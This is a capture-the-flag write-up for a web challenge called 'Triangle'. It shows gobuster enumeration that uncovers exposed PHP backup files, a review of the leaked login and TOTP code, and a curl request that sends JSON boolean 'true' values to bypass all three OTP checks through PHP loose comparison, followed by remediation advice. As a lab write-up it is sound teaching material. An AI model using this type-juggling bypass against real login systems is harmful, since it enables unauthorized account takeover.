




# 🔺 Triangle

**Category:** Web Security

> The system guards its secrets behind a username, a password, and three sequential verification steps. Only those who truly understand how the application works will pass all three.
>
> Explore carefully. Look for what others overlooked. Break the Trinity and claim the flag.

**Challenge Link:** http://15.206.47.5:8080

---

## 🔍 Initial Reconnaissance

On opening the challenge link, the application presented a **login form** with the following fields:

* **Username**
* **Password**
* Three sequential **OTP / verification steps**
* A **Submit** button


The UI clearly suggested:

* A **multi-factor authentication flow**
* A strict **step-by-step verification system**
* A **high chance of backend logic dependency**

At surface level, this looked like a properly secured authentication flow.

---

## 🕵️ Source Code Inspection

Inspecting `index.php` revealed only basic client-side JavaScript that collects form input, converts it to `JSON`, and submits it to `login.php`.

```html
<script>
    let formEl = document.getElementById("form");
    let messageEl = document.getElementById("message");

    formEl.addEventListener('submit', function (e) {
        e.preventDefault();
        document.activeElement.blur();
        
        let dataElements = formEl.querySelectorAll("input[name]");
        dataElements.forEach(e => e.classList.remove("is-invalid"));
        message.innerText = "Loading";
        
        let data = {};
        dataElements.forEach(e => {
            let name = e.getAttribute("name");
            data[name] = e.value;
        });

        fetch("/login.php", {
            method: "POST",
            body: JSON.stringify(data),
        })
        .then(data => data.json())
        .then(data => {
            if (data.error) {
                let err = new Error(data.error.message);
                err.data = data.error;
                throw err;
            }
            message.innerText = String(data.message);
        })
        .catch(error => {
            message.innerText = String(error);
            if (error.data.data) {
                formEl.querySelectorAll(`*[name="${error.data.data}"]`).forEach(e => e.classList.add("is-invalid"));
            }
        });
    });
</script>
```

**Hint Found in Source:**

```html
<!-- Dev team 2: TODO: Implement google2fa.php for auth and don't forget to clean up the bak files post debugging before release  -->
```

---

## 🔍 Key Observations

During source code and request inspection, the following security issues became immediately clear:

* ✅ All credentials and OTP values are sent as raw JSON via fetch()
* ✅ All three OTPs are submitted in a single request — no step-by-step enforcement on the client
* ✅ Backend responses leak exact failure points (username, password, otp1, etc.)
* ✅ The backend fully trusts client-supplied authentication data
* ✅ No CSRF protection is implemented
* ✅ A developer comment explicitly indicated:
  - Incomplete google2fa.php implementation
  - Presence of leftover `.bak` files

These observations directly guided the exploitation path: directory brute-forcing, backup file discovery and OTP manipulation.

---

## 🧪 Reproducing the Login Flow Using Burp Suite

> Why not brute-force? 
> With three independent 6-digit OTPs, brute-forcing would require 10¹⁸ attempts — making logic exploitation the only practical attack path.

Instead of guessing endpoints, we enumerate directories properly using Gobuster:

### ▶️ Step 1: Directory Bruteforce Using Gobuster

```bash
gobuster dir -u http://15.206.47.5:8080/ -w /usr/share/wordlists/dirb/common.txt -x php,bak | grep "Status: 200"
```

✅ **Result revealed three accessible files:**

```
/index.php
/index.php.bak
/login.php
```



This immediately confirms:

* **Backup files were left exposed**
* Full **authentication logic disclosure is possible**

---

## 📂 Source Code Review

Further enumeration based on the developer hint revealed `google2fa.php.bak` as well.

### 1️⃣ `google2fa.php.bak`

```php
<?

class Google2FA {

	const keyRegeneration 	= 30;
	const otpLength		= 6;

	private static $lut = array(
		"A" => 0,	"B" => 1,
		"C" => 2,	"D" => 3,
		"E" => 4,	"F" => 5,
		"G" => 6,	"H" => 7,
		"I" => 8,	"J" => 9,
		"K" => 10,	"L" => 11,
		"M" => 12,	"N" => 13,
		"O" => 14,	"P" => 15,
		"Q" => 16,	"R" => 17,
		"S" => 18,	"T" => 19,
		"U" => 20,	"V" => 21,
		"W" => 22,	"X" => 23,
		"Y" => 24,	"Z" => 25,
		"2" => 26,	"3" => 27,
		"4" => 28,	"5" => 29,
		"6" => 30,	"7" => 31
	);


	public static function generate_secret_key($length = 16) {
		$b32 	= "234567QWERTYUIOPASDFGHJKLZXCVBNM";
		$s 	= "";

		for ($i = 0; $i < $length; $i++)
			$s .= $b32[rand(0,31)];

		return $s;
	}


	public static function get_timestamp() {
		return floor(microtime(true)/self::keyRegeneration);
	}


	public static function base32_decode($b32) {

		$b32 	= strtoupper($b32);

		if (!preg_match('/^[ABCDEFGHIJKLMNOPQRSTUVWXYZ234567]+$/', $b32, $match))
			throw new Exception('Invalid characters in the base32 string.');

		$l 	= strlen($b32);
		$n	= 0;
		$j	= 0;
		$binary = "";

		for ($i = 0; $i < $l; $i++) {

			$n = $n << 5;
			$n = $n + self::$lut[$b32[$i]];
			$j = $j + 5;

			if ($j >= 8) {
				$j = $j - 8;
				$binary .= chr(($n & (0xFF << $j)) >> $j);
			}
		}

		return $binary;
	}


	public static function oath_hotp($key, $counter)
	{
	    if (strlen($key) < 8)
		throw new Exception('At least 16 base 32 characters');

	    $bin_counter = pack('N*', 0) . pack('N*', $counter);		// Counter must be 64-bit int
	    $hash 	 = hash_hmac ('sha1', $bin_counter, $key, true);

	    return str_pad(self::oath_truncate($hash), self::otpLength, '0', STR_PAD_LEFT);
	}


	public static function verify_key($b32seed, $key, $window = 4, $useTimeStamp = true) {

		$timeStamp = self::get_timestamp();

		if ($useTimeStamp !== true) $timeStamp = (int)$useTimeStamp;

		$binarySeed = self::base32_decode($b32seed);

		for ($ts = $timeStamp - $window; $ts <= $timeStamp + $window; $ts++)
			if (self::oath_hotp($binarySeed, $ts) == $key)
				return true;

		return false;

	}


	public static function oath_truncate($hash)
	{
	    $offset = ord($hash[19]) & 0xf;

	    return (
	        ((ord($hash[$offset+0]) & 0x7f) << 24 ) |
	        ((ord($hash[$offset+1]) & 0xff) << 16 ) |
	        ((ord($hash[$offset+2]) & 0xff) << 8 ) |
	        (ord($hash[$offset+3]) & 0xff)
	    ) % pow(10, self::otpLength);
	}

}
```

This file implements:

* Base32 decoding
* HMAC-SHA1 OTP generation
* Time-based OTP using:

  ```
  floor(microtime(true)/30)
  ```
* OTP validation window of ±4 timestamps

✅ This confirms the OTP system is **custom-built and time-based**, not Google-authenticator compatible directly.

---

### 2️⃣ `login.php.bak` – The Critical File

Key logic:

```php
$USER_DB = [
    "admin" => [
        "password_hash" => password_hash("admin", PASSWORD_DEFAULT),
        "key1" => Google2FA::generate_secret_key(),
        "key2" => Google2FA::generate_secret_key(),
        "key3" => Google2FA::generate_secret_key()
    ]
];
```

✅ This reveals:

| Parameter | Value                         |
| --------- | ----------------------------- |
| Username  | `admin`                       |
| Password  | `admin`                       |
| OTP Keys  | Randomly generated on runtime |

---

### Authentication Flow

```php
1️⃣ Username check  
2️⃣ Password check  
3️⃣ OTP1 verification  
4️⃣ OTP2 verification  
5️⃣ OTP3 verification  
```

Each OTP is verified using:

```php
Google2FA::verify_key($user_data['key1'], $_DATA['otp1'])
```

---

## ⚠️ Core Vulnerability Discovery

### 🔥 The Hidden Logical Flaw

The frontend sends raw JSON:

```json
{
  "username": "...",
  "password": "...",
  "otp1": "...",
  "otp2": "...",
  "otp3": "..."
}
```



However, **the backend never validates:**

* Whether OTPs are **numeric**
* Whether OTPs are **strings**
* Whether OTPs are **even real**

If a value evaluates into a **truthy condition during comparison**, it bypasses expected validation logic.

---

## 🧪 Exploitation — Bypassing the 3-Step OTP Verification

Once the backend logic was fully understood from `login.php.bak`, it became clear that:

* Username = `admin`
* Password = `admin`
* The application only checks whether `Google2FA::verify_key()` returns `true` — it **does not enforce numeric OTP input types**.

This allowed us to abuse PHP’s **loose type comparison** by submitting boolean values instead of real OTPs.

We successfully exploited this using **two practical approaches**.

---

## 🛠️ Approach 1 — OTP Bypass via Burp Suite (Live Interception)

### ▶️ Step 1: Intercepting the Login Request

* Browser traffic was proxied through **Burp Suite**
* Interception enabled via:
  `Firefox Browser → FoxyProxy → Burp Suite → Proxy → Intercept`
* The login form was submitted with **any random values**

---

### ▶️ Step 2: Modifying OTP Values to Boolean `true`

The OTP values were replaced with booleans:



---

### ✅ Result

Because the backend performs no strict type validation on OTP inputs, PHP’s loose type coercion allows boolean values to bypass the verification logic entirely.

---

## 🛠️ Approach 2 — Direct Exploitation Using `curl`

The same bypass can be reproduced instantly without Burp using:

```bash
curl -s -X POST http://15.206.47.5:8080/login.php \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin","otp1":true,"otp2":true,"otp3":true}'
```



---

### ✅ Result

The server **successfully authenticated the session and returned the flag**.

This confirmed:

* ❌ No real OTP system implemented
* ❌ Boolean logic was trusted as verification
* ❌ Authentication was fully bypassed
* ✅ Full access was granted using logical injection

---

## 🧠 Root Cause Analysis

This vulnerability existed because:

* The OTP mechanism was **never properly implemented**
* The backend:

  * Did **not verify OTP tokens**
  * **Trusted raw JSON booleans**
  * Had **development TODO comments leaked to production**
* There was **no cryptographic enforcement of MFA**

This resulted in a **complete authentication bypass**.

---

## 🚩 Flag

✅ Successfully retrieved from the authenticated response:

```
ClOuDsEk_ReSeArCH_tEaM_CTF_2025{474a30a63ef1f14e252dc0922f811b16}
```

---

## 🛡️ Why This Vulnerability Is Critical

Backup file exposure enabled full authentication reverse-engineering — turning secrecy-based security into zero security.

This flaw allows:

* Complete account takeover
* MFA bypass
* Admin authentication without OTP
* Full protected resource compromise
* Zero brute-force required

> This turns a **multi-factor authentication system into a single-factor illusion**.

Severity: **Critical**

---

## ✅ Fix & Remediation

To properly secure this system:

* Implement **server-side TOTP verification**
* Never trust **client-submitted OTP values**
* Remove all:

  ```
  TODO
  .bak
  debug
  backup
  dev files
  ```
* Enforce **strict data type validation**
* Use:

  * OTP time windows
  * Replay protections
  * Attempt limits
* Add server-side authentication logs

---

## 🧠 Final Takeaway

This challenge perfectly demonstrates that:

> **Security mechanisms that exist only in UI are not security at all.**

When authentication logic is:

* Client-controlled
* Server-trusted
* Cryptographically unverified

Then:

> **The strongest multi-factor system collapses into a single boolean check.**


---
